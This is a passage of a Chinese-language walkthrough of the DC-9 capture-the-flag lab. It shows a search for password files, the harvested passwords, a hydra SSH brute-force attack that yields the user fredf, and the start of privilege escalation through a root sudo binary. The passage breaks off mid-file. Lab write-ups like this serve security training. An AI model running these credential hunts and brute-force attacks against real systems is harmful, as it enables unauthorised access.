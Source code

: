 2. 寻找敏感文件
    - `find /home -name *pass* 2>/dev/null`
        
        发现`/home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt` ,查看
        
        ```python
        BamBam01
        Passw0rd
        smellycats
        P0Lic#10-4
        B4-Tru3-001
        4uGU5T-NiGHts
        ```
        
        将其追加到`password`后
        
3. 我们将新的`password`文件拿去爆破
    
    ```python
    hydra -L username -P password -vV -e ns 192.168.75.180 ssh
    ```
    
    炸出一个新用户，登录`ssh`
    
    ```python
    [22][ssh] host: 192.168.75.180   login: fredf   password: B4-Tru3-001
    ```
    
4. 查看新用户`fredf`的权限
    - `sudo -l` ,终于有权限了QvQ
        
        ```python
        fredf@dc-9:~$ sudo -l
        Matching Defaults entries for fredf on dc-9:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
        
        User fredf may run the following commands on dc-9:
            (root) NOPASSWD: /opt/devstuff/dist/test/test
        ```
        
5. 执行文件
    
    ```python
    fredf@dc-9:/opt/devstuff/dist/test$ ./test
    Usage: python test.py read append
    ```
    
    发现上级目录存在`test.py` 可能就是二进制文件`test`的原本的内容
    
6. 查看文件内容
    
    ```python
    ```python
    fredf@dc-9:/opt/devstuff$ cat test.py 
    #!/usr/bin/python
    
    import sys
    